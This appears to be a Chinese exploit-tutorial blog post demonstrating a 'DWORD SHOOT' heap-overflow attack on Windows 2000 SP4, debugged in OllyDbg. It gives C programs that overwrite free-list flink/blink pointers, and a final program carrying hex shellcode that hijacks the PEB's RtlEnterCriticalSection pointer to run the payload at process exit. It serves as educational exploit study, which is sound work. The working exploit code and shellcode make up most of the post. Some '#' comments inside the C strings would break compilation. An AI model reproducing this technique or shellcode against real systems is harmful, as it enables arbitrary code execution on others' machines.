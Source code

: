 ```yaml
---
layout:		post
title:		DWORD SHOOT堆溢出利用
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 2000 Professional sp4  
>编译器: Visual C++ 6.0  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

VC 6.0新建一个工程, 贴入以下代码, 选择release版本

```
#include <windows.h>

int main()
{
	HLOCAL h1,h2,h3,h4,h5,h6;
	HANDLE hp;
	hp=HeapCreate(0,0x1000,0x10000);
	h1=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	h2=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	h3=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	h4=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	h5=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	h6=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	__asm int 3;

	HeapFree(hp,0,h1);
	HeapFree(hp,0,h3);
	HeapFree(hp,0,h5);

	h1=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	
	return 0;
}
```

程序说明:

```
1.创建了一个0x1000的堆区。
2.连续申请了6个8 byte的堆块。
3.堆块间隔释放, 防止合并。
```


### 0x01 堆块释放

运行*.exe, 弹出异常框, 选择取消自动调用OllyDbg附加调试

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x00.png)

内存区转到0x00360688, 这里是请求分配的6块8 byte堆块, 加上头部共16 byte

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x01.png)

然后释放第1块 h1, 将空闲块链入了freelist[2]

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x02.png)

再往下释放h3、h5, 链入freelist[2]


### 0x02 DWORD SHOOT

现在将0x03606C8处修改为0x44444444, 0x03606D0修改为0x00000000

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x03.png)

当再请求分配8 byte堆块(实际上16 byte), h5从freelist[2]中卸下

```
node->blink->flink = node->flink # [0x44444444] = 0x00000000, 异常
node->flink->blink = node->blink
```

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x04.png)


### 0x03 前置测试

VC 6.0新建一个工程, 贴入以下代码, 选择release版本

```
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

int main()
{
	HLOCAL h1=0,h2=0;
	HANDLE hp;
	hp=HeapCreate(0,0x1000,0x10000);
	__asm int 3;
	h1=HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
	
	memcpy(h1,shellcode,200);
	h2=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);

	return 0;
}
```

OllyDbg附加上去, 内存区goto 0x00360688, 观察此时尾块头部

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x05.png)

单步到h1分配, 现在0x00360680是h1块的头部

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x06.png)

往下翻尾块的头部在0x00360750, 0x00360750-0x00360688=200, 中间相隔200 byte数据区

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x07.png)

单步到rep movsd, 现在数据区已经被0x90填充, 再往下就能覆盖尾块的头部

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x08.png)


### 0x04 植入代码

继续VC 6.0新建一个工程, 贴入以下代码, 选择release版本

```
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xb8\x20\xf0\xfd\x7f"
"\xbb\x03\x91\xf8\x77"		# RtlEnterCriticalSection的地址0x77f89103通过调试得到, 用来使shellcode调用ExitProcess时不产生异常
"\x89\x18"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x30\x75\x6e\x67\x68\x77\x6f\x6f\x79\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00"		# 按之前调试得到的数据写回
"\x88\x06\x36\x00\x20\xf0\xfd\x7f";		# 0x00360688 shellcode起始地址, 0x7ffdf020 RtlEnterCriticalSection的指针地址(固定不变)

int main()
{
	HLOCAL h1=0,h2=0;
	HANDLE hp;
	hp=HeapCreate(0,0x1000,0x10000);
	//__asm int 3;
	//EnterCriticalSection(0);
	h1=HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
	
	memcpy(h1,shellcode,0x200);
	h2=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);

	return 0;
}
```

取消main的两处注释, 通过调试得到RtlEnterCriticalSection的地址

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x09.png)

成功断下, 跟进RtlEnterCriticalSection, 得到地址0x77f89103

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x0a.png)

给EnterCriticalSection(0)处加上注释, 再调试一遍看DWORD SHOOT是否成功

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x0b.png)

直接到rep movsd, 内存区转到0x00360758, 可以看到成功覆盖尾块的flink、blink指针, 当h1卸下时(请求h2)将发生

```
h1->blink->flink = h1->flink
[0x7ffdf020] = 0x00360688
```

当进程退出时, 再调用临界区函数RtlEnterCriticalSection, 实际上调用shellcode, pwn~

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x0c.png)